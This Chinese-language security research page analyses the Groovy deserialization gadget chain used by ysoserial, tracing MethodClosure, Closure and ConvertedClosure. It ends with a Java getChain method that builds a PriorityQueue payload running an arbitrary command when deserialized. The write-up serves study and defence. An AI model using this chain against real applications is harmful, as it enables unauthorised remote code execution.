 ```yaml
---
sidebar_position: 1
tags: [ysoserial, PPPYSO, Groovy]
#slug: About Me
#title: About Me
---
```


# Groovy

## 0x01 MethodClosure

`org.codehaus.groovy.runtime.MethodClosure` 用于表示对对象方法的闭包，闭包是 Groovy 的一种代码块，它可以被保存并在之后调用，类似于一个函数或方法。

![image-20240305154930865](attachments/image-20240305154930865.png)

### doCall()

`doCall()` 方法用于执行闭包所代表的方法调用，并且可以传递参数，这个方法并不是被显式调用的，可以通过反射来测试。

```java
public static void main(String[] args) throws Exception{
    MethodClosure methodClosure = new MethodClosure(Runtime.getRuntime(), "exec");

    Method doCall = MethodClosure.class.getDeclaredMethod("doCall", Object.class);
    doCall.setAccessible(true);
    doCall.invoke(methodClosure, "open -a Calculator.app");
}
```

## 0x02 Closure

再看一个例子

```java
public static void main(String[] args) throws Exception{
    MethodClosure methodClosure = new MethodClosure("open -a Calculator.app", "execute");
    methodClosure.call();
}
```

`MethodClosure` 是对抽象类 `groovy.lang.Closure` 的继承，在 `Closure.call()` 中会尝试使用闭包的元类 `MetaClass` 来调用 `doCall` 方法来执行闭包中的代码。

![image-20240305161258416](attachments/image-20240305161258416.png)

因为是通过 `MethodClosure` 调用的，所以通过 `mc.getMethod()` 获取到 `execute` 方法

![image-20240305162846270](attachments/image-20240305162846270.png)

之后会调用到 `org.codehaus.groovy.runtime.ProcessGroovyMethods.execute()` 执行命令

![image-20240305163126493](attachments/image-20240305163126493.png)

## 0x03 ConvertedClosure

那么要如何实现反序列化的利用呢，就需要介绍 `org.codehaus.groovy.runtime.ConvertedClosure` 这个类了，构造方法接收 `Closure` ，用于将任何闭包适配到 Java 接口。这个类集成了 `ConversionHandler`，而 `ConversionHandler` 同时也实现了动态代理。

![image-20240305163803436](attachments/image-20240305163803436.png)

在 `org.codehaus.groovy.runtime.ConversionHandler.invoke()` 方法中，首先 `checkMethod` 方法会判断代理 Method 的类 Class 对象是否为 `Object` ，符合条件会调用 `invokeCustom()` 方法。

![image-20240305164514226](attachments/image-20240305164514226.png)

![image-20240305164359704](attachments/image-20240305164359704.png)

 `invokeCustom()` 方法中判断代理方法名与 `methodName` 属性值定义的是否相同，相同时就会调用 `MethodClosure.call()` 方法实现最终的利用了。

![image-20240305165055778](attachments/image-20240305165055778.png)

## 0x04 其他 kick-off

ysoserial 中的 Groovy1 使用 `AnnotationInvocationHandler` 来构建，当然我们可以用和之前分析 Beanshell、Jython 一样的 `PriorityQueue` 来触发，只不过构建 queue 时要注意 K-V 都设置为 `null` ，有参情况下通过 `MetaClassHelper` 获取不到 `MethodClosure` 的。

其实也是可以设置参数的，不过需要和 `MethodClosure` 的构造方法参数相同，传不了 `Java.lang.Object` ，所以干脆直接给个 null 去获取默认。具体获取的代码在 `groovy.lang.MetaClassImpl.chooseMethodInternal()` 方法中，如果有人能看到这感兴趣可以看一下，篇幅有限就不铺开了。

![image-20240305175126115](attachments/image-20240305175126115.png)

```java
public Object getChain(String command) throws Exception {
    final ConvertedClosure closure = new ConvertedClosure(new MethodClosure(command, "execute"), "compare");

    // Create Comparator Proxy
    Comparator comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, closure);

    // Prepare Trigger Gadget (will call Comparator.compare() during deserialization)
    final PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
    Reflections.setFieldValue(priorityQueue, "queue", new Object[]{null, null});
    Reflections.setFieldValue(priorityQueue, "size", 2);

    return priorityQueue;
}
```

